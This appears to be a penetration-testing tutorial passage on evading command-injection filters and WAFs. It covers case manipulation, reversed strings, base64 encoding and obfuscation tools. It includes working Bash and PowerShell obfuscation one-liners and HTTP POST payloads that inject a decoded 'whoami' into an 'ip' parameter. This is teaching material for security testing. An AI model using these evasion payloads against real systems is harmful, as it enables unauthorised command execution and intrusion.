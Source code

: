 In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

While the following techniques can work, it is still a good idea to be creative with Bash and Powershell to create your own unique obfuscation methods. This way, it is much less likely for the payload to be denied by a filter or a WAF.
## Case Manipulation
One command obfuscation technique we can use is case manipulation, in which the character cases of a command is inverted (e.g `WHOAMI`) or alternated (e.g `WhOaMi`). This usually works because command blacklist functions may not check for different case variations of a single word, this is because Linux-based systems are case sensitive. So this technique will work for Windows' Powershell and CMD as they are case-insensitive.

Not all is lost for Linux-based systems and bash shell, we just have to be creative:
```nix
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
The command above will convert the command into an all-lowercase word and execute it.

Additionally, for bash shell, the following technique will work as well:
```nix
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
Another technique is reversing commands, and having a command template that switches them back and executes the command. For example, instead of executing `whoami`, we will instead use `imaohw` to avoid triggering the blacklisted command.

But first, we have to get the reversed string of our command in our terminal:
```nix
echo 'whoami' | rev
```
Then we can execute the original command by reversing it back in a sub-shell:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a$(rev<<<'imaohw')
```

The same can also be applied to Windows. First we reverse the string:
```powershell
"whoami"[-1...20] -join ''
```
Then we execute a reverse string using Powershell sub-shell (`iex "$()"`):
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0aiex "$('imaohw'[-1..-20] -join '')"
```
> Note: We removed the encoding on the command so that we can read it properly. But during engagements, make sure to encode the necessary characters to bypass other filters.
## Encoded Commands
Another technique is encoding commands, this may be helpful for commands containing filtered characters or characters that may be URL-decoded by the server. However, this may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute (avoid this by not using encoded characters).

In this case, we can utilize various tools such as `base64` for base64 encoding and `xxd` for hex encoding. For example:
```nix
echo "whoami" | base64
```
Which will return `d2hvYW1pCg==`. We can now create a command to decode the encoded string in a sub-shell and then pass it to bash to be executed:
```nix
bash<<<$(base64 -d<<<d2hvYW1pCg==)
```
Which we can then use as a payload:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)
```
>   Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character. 

This encoding technique can also be used in Windows environment by using the following command:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```
The command above can also be done in a Linux environment, by first converting the string from `utf-8` to `utf-16`:
```nix
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

We can then decode the base64-encoded string and execute it with a Powershell sub-shell (`iex "$()"`):
```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
## Automating Evasion/Bypass
When dealing with advanced security tools, it may be hard to use basic, manual obfuscation methods. In such cases, it's wise to resort to automated obfuscation tools, such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator) for Linux and [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) for Windows.